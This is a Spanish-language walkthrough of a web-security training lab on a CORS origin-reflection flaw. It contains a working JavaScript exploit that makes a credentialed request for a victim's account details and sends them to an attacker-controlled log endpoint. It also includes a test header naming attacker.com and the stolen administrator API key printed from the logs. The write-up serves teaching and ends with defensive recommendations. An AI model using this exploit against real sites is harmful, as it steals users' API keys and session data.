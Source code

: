 # Lab: CORS vulnerability with basic origin reflection

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un sitio de compras online:
![image](https://github.com/user-attachments/assets/27097d64-5cfd-42ac-882e-a8d2e4704b4f)

Tenemos que acceder a algun endpoint que nos permita visualizar nuestra API key, por lo que procedemos a autenticarnos con nuestras credenciales `wiener:peter`:
![image](https://github.com/user-attachments/assets/6aac9bd4-4886-4833-a96d-762e03af1942)

Dashboard del usuario `wiener`:
![image](https://github.com/user-attachments/assets/08d91dd3-eace-4c2d-a73d-adb1b5e7426b)

Notamos que además tramita un endpoint interesante:
![image](https://github.com/user-attachments/assets/3d1cff9f-aaa0-4f4a-a5b2-a3e2c427323b)

El endpoint `/accountDetails` muestra una configuración vulnerable a CORS con reflexión de origen, y la imagen demuestra claramente que la explotación es posible. 
La solicitud GET a `/accountDetails` devuelve información sensible del usuario autenticado:
```json
{
  "username": "wiener",
  "email": "",
  "apikey": "KNOtNNLqwPrDs2yrDB1WSo909dr1VGaE",
  "sessions": [...]
}
```
Y el encabezado de respuesta:
```http
Access-Control-Allow-Credentials: true
```

Esto permite que el navegador envíe cookies en solicitudes cross-origin.

Esto es inseguro si el servidor también refleja el origen (`Origin`) sin validación.

Para validar esto, enviamos esta solicitud al `Repeater` y añadimos una nueva cabecera `Origin: https://attacker.com`, la respuesta incluirá:
```http
Access-Control-Allow-Origin: https://attacker.com
```

Realizamos la prueba, esta nueva captura confirmá que el sitio es vulnerable a una explotación CORS con reflexión de origen:
![image](https://github.com/user-attachments/assets/5231fe33-2b1f-4d25-a0c2-ec335fa74439)

- El servidor está reflejando dinámicamente el origen proporcionado (https://attacker.com).

- Y permite el uso de cookies/autenticación (Access-Control-Allow-Credentials: true).

Un atacante puede desde su propio dominio malicioso (attacker.com) hacer una solicitud autenticada con cookies del usuario víctima a `/accountDetails`, y robar la API key y otros datos privados.

Procedemos a utilizar un script:

```html
<html>
  <body>
    <script>
      var req = new XMLHttpRequest();
      req.onload = function() {
        location = '/log?data=' + this.responseText;
      };
      req.open('GET', 'https://0af80099040020e7ec49840800a3004f.web-security-academy.net/accountDetails', true);
      req.withCredentials = true;
      req.send();
    </script>
  </body>
</html>

```

Simulamos levantar nuestro servidor de atacante accediendo al botón `Go to exploit server`, ahí pegamos nuestro script que simula el desarrollo de una página que produce el exploit. Primero hacemos click en `Store` y luego en `Send exploit to victim`.

Accedemos a los logs mediante el botón `Access log`:
![image](https://github.com/user-attachments/assets/d3f13ff5-7bf3-4a48-809b-4235e4025c5f)

Obtenemos la información del usuario administrator:
```http
%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22tRNkNQZiJtz3mCI80EDVyV2lQz6F4Fr5%22,%20%20%22sessions%22:%20[%20%20%20%20%22imTj0ZUcHiYgBJZHW1O7PrOQLZkA4Qyk%22%20%20]}
```

Puntualmente observamos la API key:
```bash
GET /log?data={"username":"administrator", ... "apikey":"tRNkNQZiJtz3mCI80EDVyV2lQz6F4Fr5"}
```

La solicitud proviene de una IP interna (10.0.4.32), que representa al navegador de la víctima autenticada (usuario administrator).

El contenido robado incluye:

- El username (administrator)

- La API key completa

- La cookie de sesión (sessions)

Procedemos a cargar la API key de la víctima y resolvemos el laboratorio:

![image](https://github.com/user-attachments/assets/b190c744-8ef2-43f9-bb72-7abbf24a6504)

---

## ✅ Conclusiones

Este laboratorio demuestra cómo una configuración incorrecta de CORS puede permitir a un atacante externo acceder a información sensible de usuarios autenticados. En este caso, la combinación de:

- Reflejo dinámico del encabezado `Origin`
- Uso de `Access-Control-Allow-Credentials: true`

permitió que un sitio malicioso realizara solicitudes autenticadas en nombre de la víctima y obtuviera su API key.

---

## 🛡️ Recomendaciones

Para prevenir este tipo de ataques:

- **Evitar reflejar el `Origin` sin validación**. Solo permitir orígenes explícitamente confiables mediante una lista blanca.
- **Nunca utilizar `Access-Control-Allow-Origin: *` junto con `Access-Control-Allow-Credentials: true`**.
- Asegurar que los endpoints sensibles no estén disponibles vía CORS si no es estrictamente necesario.
- Implementar políticas de seguridad en el navegador como `SameSite=Lax` en cookies, `Content-Security-Policy`, y `Referrer-Policy`.

---

## 📚 Lecciones aprendidas

- CORS no es una política de seguridad en sí misma, sino una forma de **relajar la política del mismo origen**. Por eso, **su mal uso genera vulnerabilidades**.
- El hecho de que el navegador bloquee una solicitud no significa que el servidor esté seguro: **el navegador protege al usuario, no al backend**.
- Es importante validar manualmente cómo responde un servidor ante diferentes orígenes, especialmente en endpoints autenticados o sensibles.

